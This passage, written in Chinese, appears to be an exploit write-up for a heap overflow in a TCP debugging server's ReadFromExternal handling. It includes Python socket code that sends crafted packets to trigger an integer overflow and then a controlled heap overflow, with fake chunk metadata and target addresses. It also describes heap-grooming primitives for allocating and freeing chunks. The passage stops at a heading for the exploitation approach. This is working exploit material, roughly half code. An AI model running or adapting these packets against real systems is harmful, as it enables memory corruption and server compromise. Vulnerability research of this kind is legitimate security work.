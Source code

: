 为了精确控制溢出，不至于严重破坏堆的数据结构导致程序不能正常运行，我们不能在两个位置同时造成溢出。

我们可以通过控制 exp 的发送逻辑，仅对 m_BufferBase 进行堆溢出：

```python
s = socket(AF_INET, SOCK_STREAM)
s.connect((ip, port))
packet = p32(0x2 | ChunkCallstackFlag) \
        + p32(0x40) \
        + b'\xff' * 0x200 \
        + p32(0x1) \
        + p32(0) \
        + b'\x00\x00\x00\x01' \
        + b'\xfe' * 16 * 1024 * 1024
# 第一次 send，仅发送 16MB数据，虽然此时已经整数溢出，但确保了 string buffer 不发生溢出，
# 因为只发送了 16MB 数据，没有多余的可供 ReadFromExternal 第二轮接收
s.sendall(packet)

packet = b'b' * 0x80 + p64(0x10050) + p64(0x145) + p64(0xdeadbeefdeadbeef) * 0x26
packet += p64(0xfffffffffec12000) + p64(0x1bef007)
# 第二次 send，此时已经发生了整数溢出，不仅满足 ReadFromExternal 第一轮接收 128字节，
# ReadFromExternal 函数第二轮接收直接导致了堆溢出
s.sendall(packet)
```

### 堆排布能力

- 任意长度堆块分配

可以通过 callstack size 字段和 callstack 字段控制 server 分配任意长度的堆块保存 callstack：

```python
ChunkCallstackFlag = 0x10000

s = socket(AF_INET, SOCK_STREAM)
s.connect((ip, port))
# 0x40，callstack部分的长度，长度单位是sizeof(unsigned long)
# b'\xff' * 0x200，callstack内容
packet = p32(0x2 | ChunkCallstackFlag) \
        + p32(0x40) \
        + b'\xff' * 0x200 \
        + p32(0x1) \
        + p32(0) \
        + b'\x00\x00\x00\x01' \
        + b'\xfe' * 16 * 1024 * 1024

s.sendall(packet)
```

- 堆块释放

TargetControlServerThread 函数是 TCP 线程的主逻辑，它会检查连接进来的 client 是否符合建立调试线程的条件。

若不满足条件，则重新回到while循环的开始，继续监听套接字连接。这个过程会释放掉本轮产生m_BufferBase、string buffer、callstack。

## 漏洞利用思路
